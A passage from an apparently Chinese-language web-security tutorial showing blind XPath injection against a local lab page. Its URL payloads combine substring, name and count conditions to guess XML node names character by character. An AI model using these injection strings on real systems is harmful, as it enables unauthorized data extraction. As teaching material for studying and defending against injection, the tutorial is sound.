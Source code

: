[![](assets/1698897471-7cc7a52771325a55c740779b3adf82b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151309-31f7c740-14d3-1.jpg)  
有返回结果证明存在一个根节点。  
利用substring分割根节点的每个字符，猜解第一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),1,1)='r' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),2,1)='o' or '1'='2
```

...  
最终结果: root  
*2.盲注root的下一级节点*  
判断root的下一级节点数：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/root/*) = 1 or '1' = '2
```

有返回结果证明存在一个root的下一级节点。  
[![](assets/1698897471-24a787444346a201208c84132afed987.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151335-418afc54-14d3-1.jpg)  
猜解root的下一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),1,1)='u' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),2,1)='s' or '1'='2
```
